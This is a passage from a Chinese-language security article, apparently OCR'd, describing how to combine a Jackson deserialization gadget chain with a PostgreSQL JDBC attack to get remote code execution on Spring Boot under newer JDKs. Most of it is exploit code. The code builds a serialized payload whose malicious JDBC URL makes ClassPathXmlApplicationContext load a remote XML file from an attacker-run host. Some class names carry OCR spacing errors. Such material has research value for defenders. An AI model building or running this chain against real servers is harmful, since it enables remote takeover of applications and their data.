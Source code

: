 ```java
ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(badAttributeValueExpException);
```

## 四、使用 JDBC Attack 扩展 JNDI 注入攻击面

上面的利用方式可以对于 Spring Boot 差不多进行通杀，但是还有一个问题是 TemplatesImpl 在最新的高版本 JDK 里是用不了的，那么圈子又兜回去了，对于高版本的 JDK 我们也需要一种可用的攻击手法才行。

这时候就可以考虑通过 JDBC Attack 来实现，我们回顾刚才的链，jackson 的链可以触发任意 getter，而 JDBC 中 getConnection 是 JDBC Attack 的触发点，那么就可以将 JDBC 与原生反序列化结合起来，先打 Jackson 链，然后去触发后续的 JDBC Attack。

### 4.1 Postgresql

这里首先我们通过 jackson 来触发 getter 的利用，然后创建一个 pgsql 的 datasource，把恶意的 url 塞进其中，就可以进行 getter 的后利用，就可以实现无 TemplatesImpl 的 RCE。

```java
CtClass ctClass = ClassPool.getDefault().get("com.fasterxml.jackson.databind. node.BaseJsonNode");
CtMethod writeReplace = ctClass.getDeclaredMethod("writeReplace");
ctClass.removeMethod(writeReplace);
ctClass.toClass();

CtClass ctClass1 = ClassPool.getDefault().get("org.postgresql .ds.common.BaseDataSource");
CtMethod writeReplace1 = ctClass1.getDeclaredMethod("getURL");
ctClass1.removeMethod(writeReplace1);
ctClass1.toClass();

String command = "jdbc:postgresql://node/test?socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:2333/test.xml";
PGSimpleDataSource dataSource = new PGSimpleDataSource();
dataSource.setURL(command);

AdvisedSupport advisedSupport = new AdvisedSupport();
advisedSupport.setTarget(dataSource);
Constructor constructor = Class.forName("org.springframework.aop.framework.JdkDynamicAopProxy").getConstructor(AdvisedSupport.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor .newInstance(advisedSupport);
Object proxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(), new Class[]{DataSource.class}, handler);

POJONode pojoNode = new POJONode(proxy);

HotSwappableTargetSource hotSwappableTargetSource1 =  new HotSwappableTargetSource(pojoNode);
HotSwappableTargetSource hotSwappableTargetSource2 =  new HotSwappableTargetSource(new XString(null));
HashMap exp = makeMap(hotSwappableTargetSource1, hotSwappableTargetSource2);

ByteArrayOutputStream baos = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(baos);
oos.writeObject(exp);
```
